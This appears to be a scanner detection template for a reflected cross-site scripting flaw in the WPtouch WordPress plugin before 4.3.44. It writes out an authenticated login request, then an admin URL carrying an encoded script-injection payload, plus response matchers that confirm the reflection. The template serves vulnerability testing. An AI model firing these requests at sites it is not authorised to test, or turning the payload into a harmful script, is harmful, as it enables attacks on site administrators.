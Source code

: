 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WPtouch \< 4.3.44 - Cross Site Scripting
## Description
- The plugin does not escape some URLs before outputting them back in attributes, leading to Reflected Cross-Site Scripting.

- severity - medium
- tags - wp-plugin,wp,wordpress,xss,authenticated,wptouch,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wptouch-admin-license&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(document.domain)\</script>

**Type - word**
- part - body
- words
    1. WPtouchCustom
    2. WPtouchAjax
    3. toplevel_page_wptouch-admin
- condition - or
